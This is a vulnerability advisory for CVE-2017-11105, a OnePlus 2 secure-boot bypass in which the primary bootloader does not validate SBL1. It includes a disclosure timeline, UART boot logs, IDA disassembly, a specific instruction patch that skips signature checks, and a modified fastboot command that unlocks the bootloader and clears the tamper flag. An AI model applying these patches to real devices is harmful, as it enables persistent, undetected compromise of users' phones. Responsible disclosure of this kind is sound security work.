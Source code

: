 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-22'
    - type: 'report'
      date: '2017-06-26'
    - type: 'vendor-ack'
      date: '2017-06-30'
      arg: 'deadline extended'
    - type: 'wont-fix'
      date: '2017-07-05'
      arg:  '"About to reach the product''s lifecycle"'
    - type: 'deadline'
      date: '2017-07-06'
    - type: 'cve-request'
      date: '2017-07-07'
    - type: 'cve-assign'
      date: '2017-07-08'
    - type: 'release'
      date: '2017-08-01'
    - type: 'deadline-extension'
      date: '2017-09-24'

cve: 'CVE-2017-11105'
severity: 'critical'
alephid: ALEPH-2017026
date: '2017-08-01'
title: 'OnePlus 2 Lack of SBL1 Validation Broken Secure Boot'
product: 
     - OnePlus 2
credit: roeeh
---
```

OnePlus 2 (a 2015 Qualcomm Snapdragon 810 device) successfully boots with a tampered Secondary Bootloader (`sbl1`) partition although it is digitally-signed, hence it is not validated by its Primary Bootloader (PBL), maybe due to lenient hardware configuration.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1]</span>
     `-.<span class="nc">
       [aboot]</span>
       |`-.
       |  <span class="nc">[...]</span>
       |-<span class="nc">[tz]</span>
       |-<span class="nc">[rpm]</span>
       |-<span class="nc">[pmic]</span>
       .
       .
</code></pre>
</div>
Attackers capable of tampering with the `sbl1` partition can then disable the signature validation of the rest of the bootloader chain and other SBL-validated partitions such as TrustZone and ABOOT.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1</span>*<span class="rd">]</span>
     `-.<span class="rd">
       [aboot]</span>
       |`-.
       |  <span class="rd">[...]</span>
       |-<span class="rd">[tz]</span>
       |-<span class="rd">[rpm]</span>
       |-<span class="rd">[pmic]</span>
       .
       .

* - Modified as per our PoC
</code></pre>
</div>

Equivalent partitions of older OnePlus devices ([One](https://forums.coronalabs.com/topic/60894-phones-that-have-no-secure-boot-not-locked-bootloader/)/X) seem to have no digital signatures at all, and therefore are vulnerable as well.

## Proof-of-Concept ##

The goal of our PoC, whose results are available in our [repo](https://github.com/alephsecurity/research/tree/master/CVE-2017-11105), is to disable the signature validation (implemented by SBL) of the rest of the partitions such as TrustZone and ABOOT.

In order to find the exact routine within the `sbl1` image that does that, we first discovered the UART ports exposed on the OnePlus 2 board, by simply probing the available ones using our beloved [Logic Analyzer](https://www.salae.com/):

!["OnePlus 2 UART ports"](/assets/img/opo2uart.png)

Booting with authentic partitions results in the following debug messages through UART:
```
 B -    274561 - SBL1, Start
 B -    281728 - scatterload_region && ram_init, Start
 B -    296490 - boot_flash_init, Start
 D -        30 - boot_flash_init, Delta
 B -    297039 - boot_config_data_table_init, Start
 D -      3629 - boot_config_data_table_init, Delta
 B -    306067 - Image Load, Start
 D -     14060 - PMIC Image Loaded, Delta
 B -    320097 - sbl1_ddr_set_params, Start
 D -       579 - sbl1_ddr_set_params, Delta
 B -    326136 - pm_device_init, Start
 B -    328607 - PON REASON:PM0:0x2000000a0 PM1:0x2000000a0
 D -     37332 - pm_device_init, Delta
 [...]
 B -    763720 - Image Load, Start
 D -     36020 - APPSBL Image Loaded, Delta
 B -    799740 - sbl1_efs_handle_cookies, Start
 D -       457 - sbl1_efs_handle_cookies, End 
 B -    805383 - RPM sync cookie updated
 B -    808921 - SBL1, End 
 D -    536708 - SBL1, Delta
 Android Bootloader - UART_DM Initialized!!!
```
Booting with tampered SBL-validated partitions (e.g. `aboot`, `tz`), however, results in the following error (or similar):
```
B -    205997 - SBL1, Start
B -    213317 - scatterload_region && ram_init, Start
B -    227896 - boot_flash_init, Start
D -        30 - boot_flash_init, Delta
B -    228475 - boot_config_data_table_init, Start
D -      3599 - boot_config_data_table_init, Delta
[...]
B -   1184406 - Qsee Execution, Start
D -     80184 - Qsee Execution, Delta
B -   1436458 - Image Load, Start
D -     73871 - RPM Image Loaded, Delta
B -   1510573 - Signal PBL to Jump to RPM FW
B -   1512037 - Image Load, Start
D -      2562 - WDT Image Loaded, Delta
B -   1518107 - Image Load, Start
B -   1683996 - Error code 302e at /work/home/jenkins/14049_user_MP_HYDROGEN/MODEM/MSM8994/msm8994/boot_images/core/boot/secboot3/src/boot_elf_loader.c Line 829
```
By back-referencing the error string with IDA we can easily pinpoint the SBL function which validates the rest of the chain:

```
ROM:00000000FEC0E908 loc_FEC0E908                            ; CODE XREF: sub_FEC0E89C+1Cj
ROM:00000000FEC0E908        MOV             X0, X19
ROM:00000000FEC0E90C        BL              sub_FEC0F9A0
ROM:00000000FEC0E910        CBZ             W0, loc_FEC0E934
ROM:00000000FEC0E914        ADRP            X0, #off_FEC7FE28@PAGE
ROM:00000000FEC0E918        LDR             X3, [X0,#off_FEC7FE28@PAGEOFF]
ROM:00000000FEC0E91C        ADRP            X0, #(aSignalPblToJum+0x16) ; -
ROM:00000000FEC0E920        ADD             X0, X0, #aWorkHomeJen_19@PAGEOFF ; "/work/home/jenkins/14049_M_OOS_user_MP2"...
ROM:00000000FEC0E924        MOV             W1, #0x33D
ROM:00000000FEC0E928        MOV             W2, #0x302E
ROM:00000000FEC0E92C        BLR             X3
ROM:00000000FEC0E930
ROM:00000000FEC0E930 loc_FEC0E930
ROM:00000000FEC0E930        B               loc_FEC0E930
ROM:00000000FEC0E934
ROM:00000000FEC0E934 loc_FEC0E934                            ; CODE XREF: sub_FEC0E89C+74j
ROM:00000000FEC0E934        LDR             X19, [SP,#0x30+var_28]
ROM:00000000FEC0E938        LDP             X20, X21, [SP,#0x30+var_20]
ROM:00000000FEC0E93C        LDP             X22, X30, [SP,#0x30+var_10]
ROM:00000000FEC0E940        ADD             SP, SP, #0x30
ROM:00000000FEC0E944        RET
ROM:00000000FEC0E944 ; End of function sub_FEC0E89C
```

Notice the spinlock @ `0xFEC0E930`. Quick patching of the call @ `0xFEC0E90C` with `MOVZ W0, #0` will avoid the failing path. 
And indeed, booting with tampered `aboot` and `tz` now succeeds:

```
B -    276757 - SBL1, Start
[...]
D -      7564 - QHEE Image Loaded, Delta
B -    760548 - Image Load, Start
D -     31690 - QSEE Image Loaded, Delta
[...]
D -     36021 - APPSBL Image Loaded, Delta
B -   1102178 - sbl1_efs_handle_cookies, Start
D -       457 - sbl1_efs_handle_cookies, End
B -   1107790 - RPM sync cookie updated
B -   1111420 - SBL1, End
D -    836920 - SBL1, Delta
Android Bootloader - UART_DM Initialized!!!
[50] project name got 14049
[...]
[1130] lk fg_volt = 4038
[1130] Backlight 1
[1670] WARM: power_on_reason  is HARD_RESET [0x21]
[1680] WARM: power_on_reason  is PON1 [0x21]
[1680] WARM: power_off_reason  is KPDPWR_N [0x80]
[1850] Channel alloc freed
[1870] Jumping to kernel via monitor
```

To prove we can execute code within `aboot`, we have also modified one of the fastboot oem commands, made it temporarily unlock the bootloader, and turn off the device tampering flag:
```c
int __fastcall cowabunga_F92C60C(int a1, int a2)
{
[...]
  dword_F978FA4 = 1;    // unlocked
  dword_F978FA8 = 0;    // tampered
  FAIL("pizza",);
[...]
}
```
The result is as follows:
```terminal
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```
